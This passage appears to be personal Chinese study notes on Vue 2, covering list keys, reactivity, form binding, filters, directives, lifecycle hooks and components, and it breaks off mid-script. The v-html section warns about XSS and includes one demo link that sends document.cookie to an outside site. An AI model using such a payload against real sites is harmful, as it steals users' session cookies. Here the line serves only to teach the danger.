<!--  -->


但是如果不写,key就会默认加一个index,所以不写就和写了index一样出问题

> 面试题: react,vue中的key有什么作用(key的内部原理)

1. 虚拟DOM中key的作用
   - key是虚拟DOM对象的标识,当状态中的数据发生变化时,Vue会根据**新数据**生成**新的虚拟DOM**,随后Vue进行**新虚拟DOM**与**旧虚拟DOM**的差异比较,比较规则如下
2. 对比规则
   - 旧虚拟DOM中找到了与新虚拟DOM相同的key
     - 若虚拟DOM中内容没变,直接使用之前的真实DOM
     - 若虚拟DOM中的内容变了,则生成新的真实DOM,随后替换掉页面中之前的真实DOM
   - 旧虚拟DOM中未找到与新虚拟DOM相同的key
     - 创建新的真实DOM,随后渲染到页面
3. 用index作为key可能会引发的问题
   - 若对数据进行:逆序添加,逆序删除等破坏顺序操作,就会产生没有必要的真实DOM更新=>界面效果没问题,但效率低
   - 如果结构中还包含输入类DOM=>会产生错误的DOM更新,界面有问题
4. 开发中如何选择key?
   1. 最好使用每条数据的唯一标识作为key,比如id,手机号,身份证号,学号等唯一值
   2. 如果不存在对数据的逆序添加,逆序删除等破坏顺序操作,仅用于渲染列表用于展示,使用index作为key是没有问题的

#### 列表过滤

此时就会发现,如果watch和computed都能实现时,要用computed会好一点

```html
<div id="root">
        <!-- 遍历数组 -->
        <h2>人员列表</h2>
        <input type="text" placeholder="请输入名字" v-model="keyWord">
        <ul>
            <li v-for="p in filPersons" :key="p.id">
                {{p.name}}-{{p.age}}-{{p.sex}}
            </li>
        </ul>
    </div>

    <script>

        // 用watch实现
        /* const vm = new Vue({
            el: '#root',
            data: {
                keyWord: '',
                persons: [
                    { id: '001', name: '马冬梅', age: 18, sex: '女' },
                    { id: '002', name: '周冬雨', age: 19, sex: '女' },
                    { id: '003', name: '周杰伦', age: 20, sex: '男' },
                    { id: '004', name: '温兆伦', age: 21, sex: '男' }
                ],
                filPersons: []
            },
            watch: {
                keyWord: {
                    immediate:true,
                    handler(val) {
                        this.filPersons = this.persons.filter((p) => {
                            return p.name.indexOf(val) !== -1
                        })
                    }
                }
            }
        }) */

        // 用计算属性实现
        const vm = new Vue({
            el: '#root',
            data: {
                keyWord: '',
                persons: [
                    { id: '001', name: '马冬梅', age: 18, sex: '女' },
                    { id: '002', name: '周冬雨', age: 19, sex: '女' },
                    { id: '003', name: '周杰伦', age: 20, sex: '男' },
                    { id: '004', name: '温兆伦', age: 21, sex: '男' }
                ]
            },
            computed: {
                filPersons() {
                    return this.persons.filter((p) => {
                        return p.name.indexOf(this.keyWord) !== -1
                    })
                }
            }
        })
    </script>
```

#### 列表排序

```html
<div id="root">
        <!-- 遍历数组 -->
        <h2>人员列表</h2>
        <input type="text" placeholder="请输入名字" v-model="keyWord">
        <button @click="sortType = 2">年龄升序</button>
        <button @click="sortType = 1">年龄降序</button>
        <button @click="sortType = 0">原顺序</button>
        <ul>
            <li v-for="p in filPersons" :key="p.id">
                {{p.name}}-{{p.age}}-{{p.sex}}
            </li>
        </ul>
    </div>

    <script>


        // 用计算属性实现
        const vm = new Vue({
            el: '#root',
            data: {
                keyWord: '',
                persons: [
                    { id: '001', name: '马冬梅', age: 28, sex: '女' },
                    { id: '002', name: '周冬雨', age: 19, sex: '女' },
                    { id: '003', name: '周杰伦', age: 31, sex: '男' },
                    { id: '004', name: '温兆伦', age: 18, sex: '男' }
                ],
                sortType: 0,// 0代表原顺序,1降序,2 升序
            },
            computed: {
                filPersons() {
                    const arr = this.persons.filter((p) => {
                        return p.name.indexOf(this.keyWord) !== -1
                    })
                    // 判断是否需要排序
                    if (this.sortType) {
                        arr.sort((p1, p2) => {
                            return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age
                        })
                    }
                    return arr
                }
            }
        })
    </script>
```

主要是看一下排序的地方吧,js的语法,其实和java的比较器挺像的

#### 更新时问题

```html
<div id="root">
        <!-- 遍历数组 -->
        <button @click="updateMei">更新马冬梅信息</button>
        <ul>
            <li v-for="p in persons" :key="p.id">
                {{p.name}}-{{p.age}}-{{p.sex}}
            </li>
        </ul>
    </div>

    <script>


        // 用计算属性实现
        const vm = new Vue({
            el: '#root',
            data: {
                persons: [
                    { id: '001', name: '马冬梅', age: 28, sex: '女' },
                    { id: '002', name: '周冬雨', age: 19, sex: '女' },
                    { id: '003', name: '周杰伦', age: 31, sex: '男' },
                    { id: '004', name: '温兆伦', age: 18, sex: '男' }
                ],
            },
            methods: {
                updateMei(){
                    // this.persons[0].age = 288 // 奏效
                    this.persons[0] = { id: '001', name: '马冬梅', age: 288, sex: '男' }
                }
            },
        })
    </script>
```

这时,直接更改某一项是生效的,但是直接更改整个对象时,是不生效的?Vue没有检测到数据改变了,但是数据的的确确变了

#### Vue.set()

```html
<div id="root">
        <h1>学校信息</h1>
        <h2>学校名称 {{name}}</h2>
        <h2>学校地址 {{address}}</h2>
        <h2>校长是:{{leader}}</h2>
        <hr>
        <h1>学生信息</h1>
        <button @click="addSex">添加一个性别属性,默认值是男</button>
        <h2>姓名: {{student.name}}</h2>
        <h2>姓名: 真实{{student.age.rAge}},对外:{{student.age.sAge}}</h2>
        <h2 v-if="student.sex">性别: {{student.sex}}</h2>
        <h2>朋友们</h2>
        <ul>
            <li v-for="(f,index) of student.friends" :key="index">
                {{f.name}}--{{f.age}}
            </li>
        </ul>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR',
                address: 'China',
                student: {
                    name: 'Tom',
                    age: {
                        rAge: 18,
                        sAge: 20
                    },
                    // sex: '男',
                    friends: [
                        { name: 'Jerry', age: 35 },
                        { name: 'Pyt', age: 15 }
                    ]
                }
            },
            methods: {
                addSex() {
                    // Vue.set(this.student, 'sex', '男')
                    this.$set(this.student, 'sex', '女')
                }
            },
        })
    </script>
```

总结在后面

#### Vue监视数据-总结

```html
<div id="root">
        <h1>学生信息</h1>

        <button @click="student.age++">年龄+1岁</button>
        <button @click="addSex">添加性别属性,默认值:男</button>
        <button @click="student.sex = '未知'">修改性别为未知</button>
        <button @click="addFriend">在列表首位添加一个朋友</button>
        <button @click="updateNameFirst">修改第一个朋友的名字为: 张三</button>
        <button @click="addHobby">添加一个爱好</button>
        <button @click="updateToCar">修改第一个爱好为: 开车</button>
        <button @click="removeSmoke">移除爱好中的抽烟</button>

        <h2>姓名: {{student.name}}</h2>
        <h2>年龄: {{student.age}}</h2>
        <h2 v-if="student.sex">性别: {{student.sex}}</h2>
        <h2>朋友们</h2>
        <ul>
            <li v-for="(f,index) of student.friends" :key="index">
                {{f.name}}--{{f.age}}
            </li>
        </ul>
        <h2>爱好</h2>
        <ul>
            <li v-for="(h,index) of student.hobby" :key="index">
                {{h}}
            </li>
        </ul>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                student: {
                    name: 'Tom',
                    age: 18,
                    hobby: ['抽烟', '喝酒', '烫头'],
                    friends: [
                        { name: 'Jerry', age: 35 },
                        { name: 'Pyt', age: 15 }
                    ]
                }
            },
            methods: {
                addSex() {
                    Vue.set(this.student, 'sex', '男')
                },
                addFriend() {
                    /* this.student.friends.splice(0, 0, {
                        name: 'Petty', age: 20
                    }) */
                    this.student.friends.unshift({ name: 'Potty', age: 18 })
                },
                updateNameFirst() {
                    this.student.friends[0].name = '张三'
                },
                addHobby() {
                    this.student.hobby.push('打篮球')
                },
                updateToCar() {
                    // this.student.hobby.splice(0, 1, '开车')
                    Vue.set(this.student.hobby, 0, '开车')
                },
                removeSmoke() {
                    this.student.hobby = this.student.hobby.filter((h) => {
                        return h !== '抽烟'
                    })
                }
            },
        })
    </script>
```

Vue监视数据的原理：

1. vue会监视data中所有层次的数据。
2. 如何监测对象中的数据-通过setter实现监视，且要在new Vue时就传入要监测的数据。

   1. 对象中后追加的属性，Vue默认不做响应式处理
   2. 如需给后添加的属性做响应式，请使用如下API：

   - Vue.set(target，propertyName/index，value) 或
   - vm.$set(target，propertyName/index，value)
3. 如何监测数组中的数据？
   通过包裹数组更新元素的方法实现，本质就是做了两件事：

   1. 调用原生对应的方法对数组进行更新。
   2. 重新解析模板，进而更新页面。
4. 在Vue修改数组中的某个元素一定要用如下方法：

   1. 使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
   2. Vue.set() 或 vm.$set()

**特别注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象 添加属性！！！**

> **数据劫持:将data加工成_data**

### 收集表单数据

分几种情况

1. 若 `<input type="text"/>` 则v-model收集的是value值,用户输入的就是value值
2. 若 `<input type="radio"/>` 则v-model收集的是value值,且要给标签配置value值
3. 若 `<input type="checkbox">`
   - 没有配置input的value属性,那么收集的就是checked(勾选or未勾选,是布尔值)
   - 配置了input的value属性
     - v-model的初始值是非数组,那么收集的就是checked(勾选or未勾选,是布尔值)
     - v-model的初始值是数组,那么收集的就是value组成的数组
4. v-model的三个修饰符
   - lazy: 失去焦点再收集数据
   - number: 输入字符串转为有效的数字
   - trim: 输入首位空格过滤

```html
<div id="root">
        <form @submit.prevent="demo">
            账号: <input type="text" v-model.trim="userinfo.account"><br><br>
            密码: <input type="password" v-model="userinfo.password"><br><br>
            年龄: <input type="number" v-model.number="userinfo.age"><br><br>
            性别:
            男<input type="radio" name="sex" v-model="userinfo.sex" value="male">
            女<input type="radio" name="sex" v-model="userinfo.sex" value="female"><br><br>
            爱好:
            学习<input type="checkbox" v-model="userinfo.hobby" value="study">
            打游戏<input type="checkbox" v-model="userinfo.hobby" value="game">
            吃饭<input type="checkbox" v-model="userinfo.hobby" value="eat"><br><br>
            所属校区
            <select v-model="userinfo.city">
                <option value="">请选择校区</option>
                <option value="beijing">北京</option>
                <option value="shanghai">上海</option>
                <option value="shenzhen">深圳</option>
                <option value="wuhan">武汉</option>
            </select>
            <br><br>
            其他信息
            <textarea v-model.lazy="userinfo.other"></textarea><br><br>
            <input type="checkbox" v-model="userinfo.agree"> 阅读并接受<a href="https://jimmy66886.github.io/">《用户协议》</a>
            <button type="submit">提交</button>
        </form>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                userinfo: {
                    account: '',
                    password: '',
                    age: '',
                    sex: '',
                    hobby: [],
                    city: '',
                    other: '',
                    agree: '',
                }
            },
            methods: {
                demo() {
                    console.log(JSON.stringify(this.userinfo))
                }
            },
        })
    </script>
```

### 过滤器

1. 过滤器定义:对要显示的数据进行特定格式化后再显示(适用于一些简单的逻辑的处理)
2. 语法:
   1. 注册过滤器: Vue.filter(name,callback) 或 new Vue(filters:{})
   2. 使用过滤器{{ xxx | 过滤器名}}  或 v-bind:属性 = "xxx | 过滤器名"
3. 备注:
   1. 过滤器也可以接收额外的参数,多个过滤器也可以串联
   2. 并没有改变原的数据,是产生新的对应的数据

```html
<div id="root">
        <h2>显示格式化后的时间</h2>
        <!-- 计算属性实现 -->
        <h3>现在是{{fmtTime}}</h3>
        <!-- methods实现 -->
        <h3>现在是{{getFmtTime()}}</h3>
        <!-- 过滤器实现 -->
        <h3>现在是{{time | timeFormater}}</h3>
        <!-- 过滤器实现(传参) -->
        <h3>现在是{{time | timeFormater('YYYY-MM-DD') | mySlice}}</h3>

        <h3 :x="msg | mySlice">ZZMR</h3>
    </div>

    <div id="root2">
        <h2>{{msg | mySlice}}</h2>
    </div>

    <script>

        // 全局过滤器
        Vue.filter('mySlice', function (value) {
            return value.slice(0.4)
        })

        const vm = new Vue({
            el: '#root',
            data: {
                time: 1673148512081,
                msg: 'ZZMR123'
            },
            computed: {
                fmtTime() {
                    return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
                }
            },
            methods: {
                getFmtTime() {
                    return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
                }
            },
            // 局部过滤器
            filters: {
                timeFormater(value, str = 'YYYY-MM-DD HH:mm:ss') {
                    // console.log('@', value)
                    return dayjs(value).format(str)
                }
            }
        })


        const vm2 = new Vue({
            el: '#root2',
            data: {
                msg: 'ZZMR'
            }
        })

    </script>
```

### 内置指令

#### v-text

1. 作用: 向其所在的节点中渲染文本内容
2. 与插值语法的区别,v-text会替换掉节点中的内容,{{xx}}则不会(也就是说插值语法可以进行拼接)

```html
 <div id="root">
        <div>{{name}}</div>
        <div v-text="name"></div>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR',
            }
        })
    </script>
```

#### v-html

这里要说一下cookie

<!--  -->


这个说实话已经在springboot里体验过了,当时就是拿了cookie,然后用postman发送请求

> **永远不要相信用户的输入**

所以v-html呢

1. 作用: 向指定节点中渲染包含html结构的内容
2. 与插值语法的区别
   - v-html会替换掉节点中的所有内容,{{xx}}则不会
   - v-html可以识别html结构
3. 严重注意:
   - 在网站上动态渲染任意HTML是非常危险的,容易导致XSS工具
   - 一定要在可信的内容上使用v-html,永不要用在用户提交的内容上

```html
<div id="root">
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR',
                str: '<h3>hello</h3>',
                str2: '<a href=javascript:location.href="https://jimmy66886.github.io?"+document.cookie>点一下</a>'
            }
        })
    </script>
```

#### v-cloak

写了一个控制器方法,用于返回一个Vue.js
但是我发现读取和写入有点问题,用Vue.min.js就没问题了

```java
/**
     * 也不能真的就返回一个“Vue.js"啊，那多没意思
     * 来个输入流然后获取一下Vue.js的内容，然后再返回过去吧
     *
     * @param s
     * @return
     * @throws InterruptedException
     */
    @GetMapping("/resource/{s}/vue.js")
    public String getVue(@PathVariable("s") String s) throws InterruptedException, IOException {
        // 先获取到路径中的秒
        int ms = Integer.parseInt(s.split("s")[0]) * 1000;
        Thread.sleep(ms);
        // 再获取到vue
        BufferedReader bufferedReader = new BufferedReader(new FileReader("D:\\Codefield\\Vue\\Vue基础\\js\\vue.min.js"));

        String line;
        StringBuffer sb = new StringBuffer();
        while ((line = bufferedReader.readLine())!= null){
            sb.append(line);
        }

        bufferedReader.close();
        return sb.toString();
    }
```

?我到现在才发现,之前一直把script标签写在了body里面,一般都是写body外面的...

情景:
将引入Vue的script标签放到body结尾处
这时,页面由于没有Vue的引入,会显示出原来的内容,然后等待Vue引入后,再被Vue渲染页面

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>v-text</title>
    <!-- <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script> -->
    <style>
        [v-cloak] {
            display: none;
        }
    </style>
</head>

<body>

    <div id="root">
        <h2 v-cloak>{{name}}</h2>
    </div>


    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

</body>

<script>
    console.log(1)
    const vm = new Vue({
        el: '#root',
        data: {
            name: 'ZZMR',
        }
    })
</script>

</html>
```

原理:**v-cloak会在Vue开始渲染页面的时候消失**
所以在Vue因网络原因还未引入,此时v-cloak生效,而v-cloak被style中的选择器选中,经过display: none处理,所以就不显示该标签,等到Vue引入,这个v-cloak就消失,标签正常展示

#### v-once指令

v-once指令:

1. v-once所在节点在初次动态渲染后,就视为静态内容了
2. 以后数据的改变不会引起v-once所在结构的更新,可以用于优化性能

```html
<div id="root">
        <h2 v-once>初始化的的n值是{{n}}</h2>
        <h2>当前的n值是{{n}}</h2>
        <button @click="n++">点我n+1</button>
    </div>


</body>

<script>
    console.log(1)
    const vm = new Vue({
        el: '#root',
        data: {
            n: 1,
        }
    })
</script>
```

#### v-pre

v-pre指令

1. 跳过其所在节点的编译过程
2. 可利用它跳过:没有使用指令语法,没有使用插值语法的节点,会加快编译

```html
<div id="root">
        <h2 v-pre>Vue其实很简单</h2>
        <h2>n的值为{{n}}</h2>
        <button @click="n++">点我n+1</button>
    </div>


</body>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            n: 1,
        }
    })
</script>
```

### 自定义指令

**定义一个v-big指令 和v-text功能类似,但会把绑定的数值放大10倍**

```html
<div id="root">
        <h2>当前的n值是 <span v-text="n"></span></h2>
        <h2>放大后的n值是 <span v-big="n"></span></h2>
        <button @click="n++">点我n+1</button>
    </div>

</body>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            n: 1
        },
        directives: {
            // big函数何时会被调用? 1. 指令与元素成功绑定时  2. 指令所在的模板被重新解析时
            big(element, binding) {
                element.innerText = binding.value * 10 
            }
        }
    })
</script>
```

**定义一个v-fbind指令 和v-bind功能类似,但可以让其所绑定的input元素默认获取焦点**

```html
<div id="root">
        <h2>当前的n值是 <span v-text="n"></span></h2>
        <h2>放大后的n值是 <span v-big="n"></span></h2>
        <button @click="n++">点我n+1</button>
        <hr>
        <input type="text" v-fbind:value="n">
    </div>

</body>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            n: 1
        },
        directives: {
            // big函数何时会被调用? 1. 指令与元素成功绑定时  2. 指令所在的模板被重新解析时
            big(element, binding) {
                element.innerText = binding.value * 10
            },
            fbind: {
                // 指令与元素成功绑定时
                bind(element, binding) {
                    element.value = binding.value
                },
                // 指令所在元素被插入页面时调用
                inserted(element, binding) {
                    element.focus()
                },
                // 指令所在的模板被重新解析时
                update(element, binding) {
                    element.value = binding.value
                    element.focus()
                }
            }
        }
    })
</script>
```

1. 定义语法:
   - 局部指令
     - new Vue({
       directives:{指令名:配置对象}
       })
     - new Vue({
       directives{指令名:回调函数}
       })
   - 全局指令
     -Vue.directive(指令名,配置对象/回调函数)
2. 配置对象中常用的三个回调
   - bind: 指令与元素被插入页面时调用
   - inserted: 指令所在元素被插入页面时调用
   - update: 指令所在模板结构被重新解析时调用
3. 备注:
   - 指令定义时不加v-,但使用时要加v-
   - 指令名如果是多个单词,不能使用小驼峰的形式,要使用kebab-case也就是短横线分隔形式,然后定义时也要加上单引号,不然报错

```html
<div id="root">
        <h2>当前的n值是 <span v-text="n"></span></h2>
        <h2>放大后的n值是 <span v-big="n"></span></h2>
        <button @click="n++">点我n+1</button>
        <hr>
        <input type="text" v-fbind:value="n">
    </div>

</body>

<script>

    // 全局指令
    Vue.directive('fbind', {
        // 指令与元素成功绑定时
        bind(element, binding) {
            element.value = binding.value
        },
        // 指令所在元素被插入页面时调用
        inserted(element, binding) {
            element.focus()
        },
        // 指令所在的模板被重新解析时
        update(element, binding) {
            element.value = binding.value
            element.focus()
        }
    })

    const vm = new Vue({
        el: '#root',
        data: {
            n: 1
        },
        directives: {
            // big函数何时会被调用? 1. 指令与元素成功绑定时  2. 指令所在的模板被重新解析时
            big(element, binding) {
                element.innerText = binding.value * 10
            },
            /* fbind: {
                // 指令与元素成功绑定时
                bind(element, binding) {
                    element.value = binding.value
                },
                // 指令所在元素被插入页面时调用
                inserted(element, binding) {
                    element.focus()
                },
                // 指令所在的模板被重新解析时
                update(element, binding) {
                    element.value = binding.value
                    element.focus()
                }
            } */
        }
    })
</script>
```

### 生命周期

#### 引出生命周期

**生命周期**

1. 又名:生命周期回调函数,生命周期函数,生命周期钩子
2. 是什么: Vue在关键时刻帮我们调用的一些特殊名称的函数
3. 生命周期函数的名字不可更改,但函数的具体内容是程序员根据需求编写的
4. 生命周期函数中的this指向是vm或组件实例对象

```html
<div id="root">
        <h2 v-if="a">hello</h2>
        <h2 :style="{opacity}">欢迎学习Vue</h2>
    </div>
</body>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            opacity: 1,
            a: false,
        },
        methods: {

        },
        // Vue完成模板的解析并把初始的真实的dom元素放入页面后(挂载完成)调用mounted
        mounted() {
            console.log('mounted')
            setInterval(() => {
                this.opacity -= 0.01
                if (this.opacity <= 0) {
                    this.opacity = 1
                }
            }, 16)
        },
    })


    // 通过外部的定时器实现(不推荐)
    /* setInterval(() => {
        vm.opacity -= 0.01
        if (vm.opacity <= 0) {
            vm.opacity = 1
        }
    }, 16) */
</script>
```

#### 分析生命周期

<!--  -->


老师画的:

<!--  -->


> 内容挺多的哎,但是没啥事,后面有总结,会说哪几个最常用

```html
<div id="root">
        <h2 v-text="n"></h2>
        <h2>当前的n值是{{n}}</h2>
        <button @click="add">点我n+1</button>
        <button @click="bye">点我销毁vm</button>
    </div>


</body>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            n: 1,
        },
        methods: {
            add() {
                console.log('add')
                this.n++
            },
            bye() {
                console.log('bye')
                this.$destroy()
            }
        },
        beforeCreate() {
            console.log('beforeCreate')
        },
        created() {
            console.log('created')
        },

        beforeMount() {
            console.log('beforeMount')
        },
        mounted() {
            console.log('mounted')
        },
        beforeUpdate() {
            console.log('beforeUpdate')
            console.log(this.n)
        },
        updated() {
            console.log('updated')
        },
        beforeDestroy() {
            console.log('beforeDestroy')
            console.log('销毁之前'+this.n)
        },
        destroyed() {
            console.log('destroyed')
        },
        watch: {
            n() {
                console.log('n变了')
            }
        }
    })
</script>
```

#### 生命周期总结

- 常用的生命周期钩子
  - mounted： 发送Ajax请求，启动定时器，绑定自定义事件，订阅消息等(初始化操作)
  - beforeDestroy: 清除定时器,解绑自定义事件,取消订阅消息等
- 关于销毁Vue实例
  - 销毁后借助Vue开发者工具看不到任何信息
  - 销毁后自定义事件会失效,但是原生DOM事件依然有效
  - 一般不会再beforeDestroy操作数据,因为即便操作数据,也不会再触发更新流程了

```html
<div id="root">
        <h2 :style="{opacity}">欢迎学习Vue</h2>
        <button @click="opacity=1">透明度设置为1</button>
        <button @click="stop">停止</button>
    </div>
</body>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            opacity: 1,
        },
        methods: {
            stop() {
                // clearInterval(this.timer)
                this.$destroy()
            }

        },
        // Vue完成模板的解析并把初识的真实的dom元素放入页面后(挂载完成)调用mounted
        mounted() {
            console.log('mounted')
            this.timer = setInterval(() => {
                this.opacity -= 0.01
                if (this.opacity <= 0) {
                    this.opacity = 1
                }
            }, 16)
        },
        beforeDestroy() {
            clearInterval(this.timer)
        },
    })
</script>
```

## 组件

<!--  -->


组件方式编写应用

<!--  -->


> 组件的定义:**实现应用中局部动能代码和资源的集合**

### 非单文件组件

一个文件中包含有n个组件

Vue中使用组件的三大步骤

1. 定义组件(创建组件)
2. 注册组件
3. 使用组件(写组件标签)

> 如何定义一个组件?

使用Vue.extend(options)创建,其中options和Vue(options)时传入的那个options几乎一样,但区别如下

1. el不能写,为什么? 因为最终所有的组件都要经过一个vm的管理,由vm中的el决定服务哪个容器
2. data必须写成函数,为什么? 避免组件被复用时,数据存在引用关系
3. 备注: 使用template可以配置组件结构

> 如何注册组件

1. 局部注册: 靠new Vue的时候传入components选项
2. 全局注册: 靠Vue.component('组件名',组件)

> 使用组件

编写组件标签 `<student></student>`

```html
<div id="root">
        <!-- 编写组件标签 -->
        <school></school>
        <hr>
        <student></student>

        <hello></hello>
    </div>

    <hr>

    <div id="root2">
        <!-- 编写组件标签 -->
        <hello></hello>
    </div>
</body>

<script>

    // 第一步  创建school组件
    const school = Vue.extend({
        // el: '#root',  一定不要写el配置项,因为所有的组件都要被一个vm管理,由vm决定服务于哪个容器
        template: `
        <div>
            <h2>学校名称: {{schoolName}}</h2>
            <h2>学校地址: {{address}}</h2>
            <button @click="showName">点我提示学校名</button>
        </div>
        `,
        data() {
            return {
                schoolName: 'ZZMR',
                address: '汉中',
            }
        },
        methods: {
            showName() {
                alert(this.schoolName)
            }
        },
    })

    // 创建student组件
    const student = Vue.extend({
        template: `
            <div>
                <h2>学生姓名: {{studentName}}</h2>
                <h2>学生年龄: {{age}}</h2>  
            </div>
        `,
        data() {
            return {
                studentName: '张三',
                age: 28
            }
        }
    })


    // 创建hello组件 - 全局
    const hello = Vue.extend({
        template: `
            <div>
                <h2>你好呀{{name}}</h2>
            </div>
        `,
        data() {
            return {
                name: 'Tom'
            }
        }
    })

